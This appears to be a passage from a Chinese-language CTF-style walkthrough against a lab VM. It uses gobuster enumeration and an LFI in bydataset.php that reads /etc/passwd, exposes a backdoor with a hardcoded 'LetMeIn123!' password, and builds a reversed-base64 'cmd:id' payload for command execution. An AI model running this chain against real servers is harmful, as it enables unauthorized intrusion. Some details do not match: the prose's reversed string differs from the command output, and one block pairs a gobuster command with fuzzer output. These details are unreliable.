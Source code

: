 ```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ gobuster dir -u http://192.168.205.131/ShadowSec/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x php,txt,html,zip,db,bak -t 64 
...
/bydataset.php        (Status: 200)
...
```

# **2. LFI 到 RCE**

通过对 `bydataset.php` 进行参数模糊测试，发现一个 `file` 参数存在本地文件包含 (LFI) 漏洞。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ gobuster dir -u http://192.168.205.131/ShadowSec/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x php,txt,html,zip,db,bak -t 64 
...
file                    [Status: 200, Size: 1452, Words: 13, Lines: 28, Duration: 14ms]
...

┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ curl 'http://192.168.205.131/ShadowSec/bydataset.php?file=/etc/passwd'
root:x:0:0:root:/root:/bin/bash
...
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
...
```

利用该LFI漏洞，读取 `bydataset.php` 文件自身的源代码，发现其包含一个后门。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ curl 'http://192.168.205.131/ShadowSec/bydataset.php?file=bydataset.php'
```

源码审计结果如下：

*   当接收到 **POST** 请求时。
*   需要一个 `auth` 参数，其值必须为硬编码的 `'LetMeIn123!'`。
*   接收一个 `payload` 参数，该参数经过 `strrev()` (字符串反转) 和 `base64_decode()` 解码后，如果以 `cmd:` 开头，则其后的内容会被 `exec()` 函数执行。

这是一个典型的、精心构造的远程代码执行 (RCE) 漏洞。

## **3. 获取 www-data Shell**

根据源码逻辑，构造我们的Payload。

1.  **目标命令:** `id`
2.  **构造字符串:** `cmd:id`
3.  **Base64编码:** `Y21kOmlk`
4.  **字符串反转:** `klimDk12Y`

```
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/php_filter_chain_generator]
└─$ echo -n 'cmd:id' | base64 -w0 | rev  
klmOk12Y 
```
